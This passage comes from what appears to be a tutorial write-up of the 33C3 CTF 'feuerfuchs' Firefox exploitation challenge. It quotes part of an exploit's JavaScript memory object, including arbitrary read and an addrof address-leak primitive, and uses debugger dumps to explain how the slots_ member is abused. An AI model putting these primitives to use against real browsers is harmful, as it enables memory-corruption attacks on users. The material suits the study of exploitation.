 ```javascript 
            return innerView.slice(0, length);
        },
        readPointer: function(addr) {
            return new Int64(this.read(addr, 8));
        },
        addrof: function(obj) {
            // To leak the address of |obj|, we set it as property of the |inner|
            // ArrayBuffer, then leak that using the existing read() method.
            inner.leakMe = obj;
            var addressOfSlotsArray = this.readPointer(Add(addressOfInnerArrayBuffer, 2*8));
            return Int64.fromJSValue(this.read(addressOfSlotsArray, 8));
        },
    };
```

`memory` object handles all of the memory read/write operation. For arbitrary read/write, it will first use the `outer` object to modify pointer in the `inner` object, then use `inner` object to read/write data. 

Note that `addrof` function is for leaking an object's address ( like `&` in the C language ). Here it uses a very clever method: **By exploiting the `slots_` member.**

The `slots_` member is used for storing the info of an object's properties. Before storing the `leakMe` property, there's nothing in `inner`'s `slots_` member:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x0000000000000000  <-- slots_ ( empty )
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
.........
```

After storing the `leakMe` property, the `slots_` member become an address which points to the object's address:

```
gef➤  tel 0x7ffff7ebc4c0
0x00007ffff7ebc4c0│+0x00: 0x00007ffff7eb90d0  <-- group_
0x00007ffff7ebc4c8│+0x08: 0x00007ffff7eb73d0  <-- shape_
0x00007ffff7ebc4d0│+0x10: 0x00007ffff69af940  →  0xfffe7ffff7eac700
0x00007ffff7ebc4d8│+0x18: 0x00000000013c7b70  <-- elements_
................
```

Here in this case, the exploit leak the address of the `Math.max` function object, so here `0x7ffff7eac700` points to the `Math.max` function object:

![](/assets/images/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/max_func.png)
